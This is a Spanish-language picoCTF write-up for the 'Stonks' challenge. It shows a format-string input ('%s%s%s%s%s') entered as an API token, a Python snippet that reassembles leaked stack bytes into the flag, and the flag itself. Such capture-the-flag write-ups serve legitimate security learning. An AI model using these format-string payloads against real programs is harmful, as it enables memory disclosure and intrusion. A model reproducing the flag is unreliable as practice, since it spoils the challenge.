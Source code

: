 # Stonks

## Descripción
I decided to try something noone else has before. I made a bot to automatically trade stonks for me using AI and machine learning. I wouldn't believe you if you told me it's unsecure! [vuln.c](https://mercury.picoctf.net/static/a4ce675e8f85190152d66014c9eebd7e/vuln.c) `nc mercury.picoctf.net 59616`

## Pistas
- Okay, maybe I'd believe you if you find my API key.

## Solución
```bash
What would you like to do?
1) Buy some stonks!
2) View my portfolio
1
Using patented AI algorithms to buy stonks
Stonks chosen
What is your API token?
%s%s%s%s%s
Buying stonks with token:
timeout: the monitored command dumped core
```

```python
from binascii import unhexlify
flag = b"".join(
    [
        unhexlify("6f636970")[::-1],
        unhexlify("7b465443")[::-1],
        unhexlify("306c5f49")[::-1],
        unhexlify("345f7435")[::-1],
        unhexlify("6d5f6c6c")[::-1],
        unhexlify("306d5f79")[::-1],
        unhexlify("5f79336e")[::-1],
        unhexlify("35343036")[::-1],
        unhexlify("64303664")[::-1],
        unhexlify("007d")[::-1],
    ]
).decode()

print(flag)
```

## Bandera
picoCTF{I_l05t_4ll_my_m0n3y_6045d60d}


## Notas adicionales
None

## Referencias
None